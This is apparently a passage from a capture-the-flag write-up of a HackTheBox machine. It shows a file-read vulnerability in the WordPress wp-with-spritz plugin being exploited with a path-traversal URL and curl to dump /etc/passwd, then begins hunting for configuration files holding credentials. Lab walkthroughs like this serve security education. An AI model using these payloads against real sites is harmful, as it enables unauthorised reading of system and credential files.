 ## Shell as www-data

### File Read

#### POC

The [exploitDB link](https://www.exploit-db.com/exploits/44544) shows
that the following code is present in the plugin:



    if(isset($_GET['url'])){
    $content=file_get_contents($_GET['url']);



It also gives two examples as proof of concepts:



    /wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../..//etc/passwd
    /wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=http(s)://domain/exec



Starting with the first one, I'll confirm I can grab `/etc/passwd` from
Monitors:



    oxdf@parrot$ curl -s http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../..//etc/passwd
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    ...[snip]...
    marcus:x:1000:1000:Marcus Haynes:/home/marcus:/bin/bash
    Debian-snmp:x:112:115::/var/lib/snmp:/bin/false
    mysql:x:109:114:MySQL Server,,,:/nonexistent:/bin/false



marcus and root look like the only users with shells.

There's not a ton I can do with the second remote include, as PHP is
calling `file_get_contents`, so even if I pass in PHP code, it won't be
executed. If this were a Windows server, I could try to get something
over SMB and collect the NetNTLMv2 challenge.

#### Enumeration

With access to the file system, I'll look at various files that might
contain useful information. I tried to get `/var/www.md/wp-config.php`
to get the DB password and username, but nothing came back. That could
be the wrong directory.

To find where on the file system the websites are rooted, I'll look into
the Apache `sites-enabled`. The default is
`/etc/apache2/sites-enabled/000-default.conf`, and that works:
